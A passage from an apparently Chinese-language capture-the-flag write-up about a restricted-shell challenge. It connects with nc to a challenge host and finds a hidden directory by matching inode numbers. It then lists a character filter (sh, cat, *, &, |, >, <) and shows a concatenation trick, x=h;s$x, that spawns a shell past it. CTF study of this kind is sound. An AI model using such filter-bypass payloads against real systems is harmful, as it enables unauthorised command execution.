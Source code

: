    ```
- `cd -`可以输出`OLD_PWD`，也就是`/`，但是并无有神马用处

- `ls`可以虽然可以输出当前路径下的文件名，但是题目中对比的是绝对路径

- 看了下`ls --help`，发现可以利用`ls -ali`，输出当前目录文件`.`的`inode`，记做`inodeX`好啦

- `inode`是唯一的，于是再开一个`shell`，`ls -alh /tmp`查看`/tmp/`下的所有文件名及`inode`

- 根据`inodeX`，即可找到正确的目录名

  ```shell
  # shell 1
  % nc 47.103.214.163 21000
  find yourself
  ls -ali
  total 8
  1968846 drwxr-xr-x   2 1000 1000 4096 Jan 27 12:50 .
  1968682 drwxrwxrwx 152    0    0 4096 Jan 27 12:50 ..
  where are you?
  ```

  ```shell
  # shell 2
  % nc 47.103.214.163 21000 | grep 1968846
  ls -ali /tmp
  1968846 drwxr-xr-x   2 1000 1000 4096 Jan 27 12:50 0x8eb79f31
  ```

  ```shell
  # shell 1
  % nc 47.103.214.163 21000
  find yourself
  ls -ali
  total 8
  1968846 drwxr-xr-x   2 1000 1000 4096 Jan 27 12:50 .
  1968682 drwxrwxrwx 152    0    0 4096 Jan 27 12:50 ..
  where are you?
  /tmp/0x8eb79f31
  ```

### 0x2 check2

- 过滤的字符(串)

  ```c
  sh cat * & | > <
  ```

- 这个简单多了，字符串拼接即可绕过

  ```shell
  x=h;s$x
  ```


### 0x3 close(1) and close(2)
